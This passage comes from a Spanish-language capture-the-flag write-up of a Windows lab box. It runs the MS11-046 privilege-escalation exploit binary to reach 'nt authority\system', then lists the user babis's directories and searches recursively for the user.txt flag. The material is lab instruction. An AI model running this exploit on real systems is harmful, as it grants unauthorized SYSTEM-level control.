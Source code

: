 ```ruby
.\ms11-046.exe

whoami
whoami
nt authority\system

c:\Windows\System32>
```
Ya estamos como administrador
- si vamos a la Ruta de Users y entramos en el usuario babis, ya tenemos acceso.

```ruby
cd babis

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\babis

17/03/2017  05:17     <DIR>          .
17/03/2017  05:17     <DIR>          ..
17/03/2017  05:17     <DIR>          Contacts
11/02/2022  04:54     <DIR>          Desktop
17/03/2017  05:17     <DIR>          Documents
17/03/2017  05:17     <DIR>          Downloads
17/03/2017  05:17     <DIR>          Favorites
17/03/2017  05:17     <DIR>          Links
17/03/2017  05:17     <DIR>          Music
17/03/2017  05:17     <DIR>          Pictures
17/03/2017  05:17     <DIR>          Saved Games
17/03/2017  05:17     <DIR>          Searches
17/03/2017  05:17     <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   4.506.812.416 bytes free
```
<h3 style="text-align:center" id="flags">FLAGS</h3><hr>

- La flag la buscamos indicándole que busque de manera recursiva la string user.txt 

```ruby
dir /r /s user.txt
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\babis\Desktop

24/07/2023  03:00                 34 user.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   4.506.812.416 bytes free
```
